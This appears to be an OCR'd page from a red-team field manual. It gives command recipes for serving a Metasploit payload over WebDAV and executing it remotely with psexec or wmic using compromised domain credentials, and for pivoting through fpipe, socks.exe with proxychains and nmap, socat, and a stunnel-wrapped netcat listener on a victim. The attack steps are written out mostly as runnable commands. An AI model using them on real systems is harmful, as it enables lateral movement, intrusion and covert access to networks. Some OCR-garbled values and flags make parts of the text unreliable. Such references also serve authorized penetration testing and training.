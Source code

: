 Via WebDAV:
1. Launch Metasploit 'webdav file server' module
2. Set following options:
	*localexe=true
	*localfile= payload
	*localroot= payload directory
	*disablePayloadHandler=true
3. Use psexec or wmic command to remotely execute payload

psexec \\ remote ip /u domain\compromised_user /p password "\\ payload ip \test\msf.exe"

-- OR -

wmic /node: remote ip /user:domain\compromised_user //password:password process call create "\\ payload ip \test\msf.exe"


TUNNELING


FPIPE - LISTEN ON 1234 AND FORWARD TO PORT 80 ON 2.2.2.2

fpipe.exe -l 1234 -r 80 2.2.2.2


SOCKS.EXE - SCAN INTRANET THROUGH SOCKS PROXY

On redirector (1.1.1.1):
 socks.exe -i1.1.1.1 -p 8080

On attacker:
Modify /etc/proxychains.conf:
Comment out:	#proxy_dns
Comment out:	#socks4a 12~.0.0.1	9050
Add line:	socks4	1.1.1.1	8080
Scan through socks proxy:
proxychains nmap -PN -vv -sT -p 22,135,139,445 2.2.2.2


SOCAT - LISTEN ON 1234 AND FORWARD TO PORT 80 ON 2.2.2.2

socat TCP4:LISTEN:1234 TCP4:2.2.2.2:80


STUNNEL - SSL ENCAPSULATED NC TUNNEL (WINDOWS & LINUX) [8]

On attacker (client):
Modify /stunnel.conf
	client - yes
	[netcat client]
	accept = 5555
	connect = -Listening IP-:4444

On victim (listening server):
Modify /stunnel.conf
	client = no
	[netcat server) 
	accept = 4444 
	connect = ----
C:\ nc -vlp ~~~~
